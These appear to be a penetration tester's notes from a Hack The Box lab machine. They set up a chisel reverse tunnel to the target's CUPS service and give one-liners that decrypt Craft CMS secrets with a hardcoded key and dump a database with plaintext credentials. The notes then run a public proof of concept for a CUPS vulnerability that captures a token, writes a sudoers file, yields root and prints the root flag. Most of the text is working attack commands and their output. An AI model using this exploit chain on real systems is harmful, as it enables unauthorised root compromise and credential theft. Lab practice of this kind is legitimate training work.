- chisel on target at `/dev/shm/chisel`; reverse tunnel used to expose target `127.0.0.1:631` → **attacker `localhost:632`** (NOT 631 — 631 is Kali's own cupsd).
- To drive CUPS tools from Kali: `export CUPS_SERVER=localhost:632` then `lpadmin/lpstat/lpinfo/lp` (target has no `cups-client` installed).
- Attacker IP seen in use: `10.10.14.80` (VPN). Target web vhost: `portal.international.htb` / `international.htb` (10.13.37.10 in target `/etc/hosts`).

## Handy one-liners
```bash
# decrypt any Craft-security-key blob again
BLOB='<db value>'; php -r 'require "/var/www/portal/vendor/autoload.php"; $s=new \yii\base\Security(); echo $s->decryptByKey(base64_decode(getenv("BLOB")),"IGckihiFK64_lrSgJJ6QLkiPz-ow13Lr"),"\n";'
# dump relay settings
mysql -ucraftuser -p'CraftDB_pw_2026' craft -e "SELECT * FROM htbairways_settings;"
```
┌─[us-dedivip-4]─[10.10
```

CUPS v2.4.16 Vulnerable to CVE-2026-34990

git clone [https://github.com/predyy/CVE-2026-34990.git](https://github.com/predyy/CVE-2026-34990.git)

aporter@portal:~$python3 poc.py 
[*] CVE-2026-34990 | user=aporter | cupsd=127.0.0.1:631
[*] coercing cupsd → rogue server ...
[+] captured token: C5E2C7366DFE438DB9D3A8495B09CE83
[*] writing sudoers ...
[+] wrote /etc/sudoers.d/aporter-pwn
[+] ROOT: uid=0(root) gid=0(root) groups=0(root)
[*] run: sudo -i
aporter@portal:~$ sudo -i
root@portal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@portal:~# cat /root/root.txt
5c54d6ffddd305874d34b25ae4773740